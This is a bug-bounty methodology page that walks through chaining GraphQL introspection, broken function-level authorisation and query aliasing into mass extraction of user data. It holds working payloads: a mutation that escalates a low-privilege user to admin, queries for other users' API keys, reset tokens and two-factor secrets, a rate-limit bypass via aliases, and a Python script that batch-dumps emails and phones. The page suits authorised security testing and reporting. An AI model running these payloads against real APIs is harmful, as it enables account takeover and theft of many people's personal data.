

> Source: https://bugbounty.info/Chains/GraphQL-BFLA-to-Extraction

# GraphQL BFLA to Mass Data Extraction

## Why This Chain Works

GraphQL gives you introspection by default in most frameworks, which means you can enumerate every query, mutation, and field the API exposes without any credentials beyond a valid session. Developers restrict access at the route level but forget that GraphQL is a single endpoint - what they meant to block as "admin-only mutations" is visible to any authenticated user who runs an introspection query. Broken function-level authorisation on a mutation that returns other users' data becomes mass extraction when you add query aliasing to run hundreds of lookups in a single request, bypassing per-query rate limits entirely.

Related: [GraphQL Security](../Attack-Surface/Web/API/GraphQL), [Broken Function Level Authorization](../Attack-Surface/Web/Authorization/BFLA), [IDOR to ATO](../Chains/IDOR-to-ATO)

---

## Attack Flow



---

## Step-by-Step

### 1. Run Introspection

Send the full introspection query as an authenticated low-privilege user:

```graphql
{
  __schema {
    queryType { name }
    mutationType { name }
    subscriptionType { name }
    types {
      name
      kind
      fields {
        name
        args { name type { name kind ofType { name kind } } }
        type { name kind ofType { name kind } }
      }
    }
  }
}
```

Paste the JSON response into a tool like [GraphQL Voyager](https://ivangoncharov.github.io/graphql-voyager/) or [InQL](https://github.com/doyensec/inql) to visualise the schema. Look for:

- Mutations with names like `updateUserRole`, `deleteUser`, `adminCreateUser`, `bulkExport`
- Query fields that return `User` objects with `email`, `phone`, `token`, `password_hash`
- Subscription types that push real-time data

### 2. Test Each Privileged Operation

For every mutation you find that looks like it should be admin-only, send a test with your low-priv token:

```http
POST /graphql HTTP/1.1
Authorization: Bearer LOW_PRIV_TOKEN
Content-Type: application/json
 
{
  "query": "mutation { updateUserRole(userId: 2, role: \"admin\") { id role } }"
}
```

If the response is:

- `{"errors":[{"message":"Not authorized"}]}` - authorisation is enforced, move on
- `{"data":{"updateUserRole":{"id":2,"role":"admin"}}}` - BFLA confirmed

Also test queries that return other users' sensitive fields:

```graphql
{
  user(id: 2) {
    email
    phone
    apiKey
    passwordResetToken
    twoFactorSecret
  }
}
```

### 3. Identify the Extraction Target

Once you find a BFLA query that returns sensitive fields for arbitrary user IDs, build the extraction payload. GraphQL's aliasing feature lets you request the same field multiple times with different arguments in a single query:

```graphql
{
  user1: user(id: 1) { id email phone }
  user2: user(id: 2) { id email phone }
  user3: user(id: 3) { id email phone }
}
```

This is one HTTP request, one query cost, N user records returned. Most rate limits apply per request or per query, not per alias. A single request with 100 aliases returns 100 user records.

### 4. Batch Extraction

For a full dataset, iterate through ID ranges with aliased queries. Script this with Python:

```python
import requests
import json
 
url = "https://api.target.com/graphql"
headers = {
    "Authorization": "Bearer LOW_PRIV_TOKEN",
    "Content-Type": "application/json"
}
 
def build_aliased_query(start, count):
    aliases = []
    for i in range(start, start + count):
        aliases.append(f"user{i}: user(id: {i}) {{ id email phone createdAt }}")
    return "{ " + " ".join(aliases) + " }"
 
# Extract in batches of 50
for batch_start in range(1, 1000, 50):
    query = build_aliased_query(batch_start, 50)
    resp = requests.post(url, json={"query": query}, headers=headers)
    data = resp.json().get("data", {})
    for key, user in data.items():
        if user:
            print(f"{user.get('id')},{user.get('email')},{user.get('phone')}")
```

**In the PoC, extract a small sample (5-10 users) and stop. Do not dump the full database.**

### 5. Introspection Disabled - Try Field Suggestions

If introspection is disabled, GraphQL engines often still return field suggestion errors:

```http
POST /graphql
{"query": "{ usr { id } }"}
```

Response:

```json
{"errors":[{"message":"Cannot query field 'usr' on type 'Query'. Did you mean 'user', 'users', or 'userSearch'?"}]}
```

Use [Clairvoyance](https://github.com/nikitastupin/clairvoyance) to enumerate fields systematically from these suggestions.

### 6. Confirm Impact

Show the number of records extractable per request and the sensitivity of the fields:

```text
Single aliased query (50 aliases, one HTTP request):
- Returns: 50 user records
- Fields: id, email, phone, createdAt
- Rate limit status: not triggered (limit is per-request, not per alias)
 
At 50 records per request: full user base of 500,000 users = 10,000 requests
At the program's stated rate limit of 100 req/min: extractable in ~1.7 hours
```

---

## PoC Template for Report

```text
1. Introspection query (authenticated as role=user)
   Discovered: mutation { updateUserRole(userId: ID, role: String) }
   and query { user(id: ID) { id email phone apiKey } }
 
2. BFLA test on updateUserRole:
   mutation { updateUserRole(userId: 2, role: "admin") { id role } }
   Response: {"data":{"updateUserRole":{"id":2,"role":"admin"}}}
   -- Role update succeeded with low-priv token --
 
3. PII extraction via BFLA on user query:
   { user(id: 2) { id email phone apiKey } }
   Response: {"data":{"user":{"id":2,"email":"victim@target.com","phone":"+1..","apiKey":"key-..."}}}
 
4. Aliased batch query (5 users, single request):
   { user1: user(id:1){id email} user2: user(id:2){id email} ... user5: user(id:5){id email} }
   Response: 5 user records returned, rate limit not triggered
 
   Full extraction estimate: 500,000 users / 50 per request = 10,000 requests
   5 sample records attached, full extraction not performed.
```

---

## Public Reports

- GraphQL IDOR exposing all user PII via aliased queries on HackerOne - [HackerOne #291531](https://hackerone.com/reports/291531)
- GraphQL introspection reveals admin mutations accessible by regular users on GitLab - [HackerOne #1064543](https://hackerone.com/reports/1064543)
- Broken function-level authorisation in GraphQL allowing mass user enumeration - [HackerOne #1987489](https://hackerone.com/reports/1987489)
- GraphQL batch query aliasing used to bypass rate limits and enumerate user emails - [HackerOne #1016122](https://hackerone.com/reports/1016122)

---

## Reporting Notes

Show introspection, the BFLA mutation/query, and the aliased batch extraction as three distinct findings that combine into one chain. Quantify the extraction rate: "X records per request, Y users total, extractable in Z time." This moves the severity argument from "theoretical" to "here is the data breach timeline." If the program uses CVSS, the combination of `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H` for the BFLA plus the batch extraction scope puts this firmly at critical.
